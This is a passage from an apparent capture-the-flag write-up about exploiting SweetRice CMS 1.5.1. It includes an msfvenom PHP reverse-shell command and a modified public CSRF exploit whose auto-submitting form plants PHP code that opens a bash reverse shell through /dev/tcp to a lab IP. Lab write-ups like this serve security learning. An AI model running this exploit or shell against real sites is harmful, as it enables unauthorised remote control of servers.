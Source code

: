 So this looks like we can run the exploit and it will ask us for the host, a username, password, and what file we want to upload, and it lands in the attachment folder.
Lets quickly craft a php reverse shell, and see if this will work. Otherwise, we can look at other things.
`msfvenom -p php/reverse_php LHOST=10.13.62.120 LPORT=4444 -o test.php`
### Failure to Launch
After running this, it doesn't work. Time to switch gears. There was another exploit with php code execution.
```
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution                                                          | php/webapps/40700.html
```

This html file mentions to upload it via the Ads tab in the sweetrice dashboard, after changing it suit our needs.

```
<!--
# Exploit Title: SweetRice 1.5.1 Arbitrary Code Execution
# Date: 30-11-2016
# Exploit Author: Ashiyane Digital Security Team
# Vendor Homepage: http://www.basic-cms.org/
# Software Link: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
# Version: 1.5.1


# Description :

# In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add
PHP Codes In Ads File
# A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute
PHP Codes On Server .
# In This Exploit I Just Added a echo '<h1> Hacked </h1>'; phpinfo();
Code You Can
Customize Exploit For Your Self .

# Exploit :
-->

<html>
<body onload="document.exploit.submit();">
<form action="http://localhost/sweetrice/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.13.62.120/4444 0>&1'");
?>
</textarea>
</form>
</body>
</html>

<!--
# After HTML File Executed You Can Access Page In
http://localhost/sweetrice/inc/ads/hacked.php
  -->

```
